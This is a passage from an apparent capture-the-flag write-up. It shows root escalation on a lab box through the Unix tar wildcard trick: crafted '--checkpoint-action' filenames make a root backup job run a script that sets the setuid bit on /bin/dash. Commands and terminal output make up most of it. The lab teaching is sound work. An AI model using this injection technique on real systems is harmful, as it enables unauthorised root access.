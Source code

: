 <p>A wildcard. After reading about <a href="http://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt"><b>Unix wildcard exploit</b></a>, it may be possible to gain root access. But firstly, what kind of shells are installed on the server? </p>

{% highlight bash %}
www-data@pipe:/home/rene/backup$ ls -la /bin/*sh
ls -al /bin/*sh
-rwxr-xr-x 1 root root 1029624 Jul 13  2014 /bin/bash
-rwxr-xr-x 1 root root  125400 Jul  8  2014 /bin/dash
lrwxrwxrwx 1 root root       4 Jul 13  2014 /bin/rbash -> bash
lrwxrwxrwx 1 root root       4 Jul  8  2014 /bin/sh -> dash
{% endhighlight %}

<p>Great, there is <b>/bin/dash</b> installed on the server. Now it's time to create a script that will allow us to root the box. </p>

{% highlight bash  %}
www-data@pipe:/home/rene/backup$ echo > --checkpoint=1;
echo > --checkpoint=1;
www-data@pipe:/home/rene/backup$ echo > --checkpoint-action=exec=sh\ shell.sh;
<ckup$ echo > --checkpoint-action=exec=sh\ shell.sh;                         
www-data@pipe:/home/rene/backup$ echo 'chmod u+s /bin/dash' > shell.sh
echo 'chmod u+s /bin/dash' > shell.sh
www-data@pipe:/home/rene/backup$ echo 'touch /home/rene/backup/done' >> shell.sh
<ckup$ echo 'touch /home/rene/backup/done' >> shell.sh                       
www-data@pipe:/home/rene/backup$ cat shell.sh
cat shell.sh
chmod u+s /bin/dash
touch /home/rene/backup/done
www-data@pipe:/home/rene/backup$ chmod +x shell.sh
chmod +x shell.sh
{% endhighlight %}

<p>And now we only have to wait for a file called <b>done</b>. After few minutes it appeared. </p>

{% highlight bash %}
www-data@pipe:/home/rene/backup$ ls -la
ls -la
total 124
-rw-r--r-- 1 www-data www-data      1 Jul 30 07:05 --checkpoint-action=exec=sh shell.sh
-rw-r--r-- 1 www-data www-data      1 Jul 30 07:05 --checkpoint=1
drwxrwxrwx 2 rene     rene       4096 Jul 30 07:10 .
drwxr-xr-x 3 rene     rene       4096 Jul  6  2015 ..
-rw-r--r-- 1 rene     rene     104106 Jul 30 07:10 backup.tar.gz
-rw-r--r-- 1 root     root          0 Jul 30 07:10 done
-rwxr-xr-x 1 www-data www-data     49 Jul 30 07:05 shell.sh
{% endhighlight %}

<p>By launching <b>dash</b> shell, we are privilaged with root access.  </p>

{% highlight bash%}
www-data@pipe:/home/rene/backup$ /bin/dash
/bin/dash
# id
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
# whoami
whoami
root
{% endhighlight %}
